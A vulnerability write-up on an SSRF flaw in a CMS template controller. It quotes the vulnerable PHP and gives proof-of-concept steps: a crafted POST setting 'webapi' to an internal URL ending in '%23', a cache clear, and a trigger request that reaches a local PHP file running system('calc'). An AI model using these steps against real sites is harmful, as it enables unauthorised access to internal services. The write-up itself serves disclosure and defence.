

### Debugging Analysis

The vulnerable file `app\admin\c\TemplateController.php` contains the following key code:

```php
public function index(){
    // Check if the update link is accessible
    $webapi = $this->webconf['template_config'];
    if(!$webapi){
        $webapi = 'http://api.jizhicms.cn/template.php';
        if(!M('sysconfig')->find(['field'=>'template_config'])){
            M('sysconfig')->add(['title'=>JZLANG('Plugin Configuration'),'field'=>'template_config','type'=>2,'data'=>$webapi,'typeid'=>0]);
            setCache('webconfig',null);
        }
    }
    if($this->frparam('set')){
        if($this->admin['isadmin']!=1){
            JsonReturn(['code'=>1,'msg'=>JZLANG('Non-super administrators cannot set!')]);
        }
        $webapi = $this->frparam('webapi',1);
        M('sysconfig')->update(['field'=>'template_config'],['data'=>$webapi]);
        setCache('webconfig',null);
        JsonReturn(['code'=>0,'msg'=>JZLANG('Configuration successful!')]);
    }
    $this->webapi = $webapi;
    $api = $webapi.'?version='.$this->webconf['web_version'];
    $templates = getCache('templatelist');
    if(!$templates){
        $ch = curl_init();
        $timeout = 5;
        curl_setopt($ch,CURLOPT_FOLLOWLOCATION,1);
        curl_setopt($ch,CURLOPT_RETURNTRANSFER,1);
        curl_setopt($ch, CURLOPT_HEADER, false);
        curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, $timeout);
        curl_setopt($ch,CURLOPT_URL,$api);
        $res = curl_exec($ch);
        $httpcode = curl_getinfo($ch,CURLINFO_HTTP_CODE);
        curl_close($ch);
        if($httpcode==200){
            $isok = true;
            $res1 = json_decode($res,1);
            if($res1['code']!=0){
                $isok = false;
            }else{
                $templates = $res1['data'];
                setCache('templatelist',$templates,86400);
            }
        }else{
            $isok = false;
        }
    }else{
        $isok = true;
    }
```

### Code Analysis

The audit reveals that the `webapi` variable can be set through the following block:
```php
if($this->frparam('set')){
    if($this->admin['isadmin']!=1){
        JsonReturn(['code'=>1,'msg'=>JZLANG('Non-super administrators cannot set!')]);
    }
    $webapi = $this->frparam('webapi',1);
    ...
```

Later, `webapi` is concatenated with `?version=`, allowing an attacker to use the `#` character to comment out subsequent parameters:
```php
$this->webapi = $webapi;
$api = $webapi.'?version='.$this->webconf['web_version'];
```

To reach the `curl` function, the `if` condition must be satisfied. This means the cache data needs to be cleared first to trigger the SSRF vulnerability point:
```php
$templates = getCache('templatelist');
if(!$templates){
```

### Exploitation

1. **Start a local simulated internal web service**:
   ```r
   php -S 127.0.0.1:8999
   ```

   Place the following `2.php` file on the server:
   ```php
   <?php
   system('calc');
   ```

2. **Send a request to set the `webapi`**:
   ```r
   POST /index.php/admins/Template/index.html

   set=1&webapi=http://127.0.0.1:8999/2.php%23
   ```
   

3. **Clear the cache from the cache-clearing page**:
     


4. **Request the path to trigger the SSRF vulnerability**:
   ```r
   index.php/admins/Template/index.html
   ```
   


You can see that the local web service successfully receives the request and the 2.php file is run and the calculator pops up
   
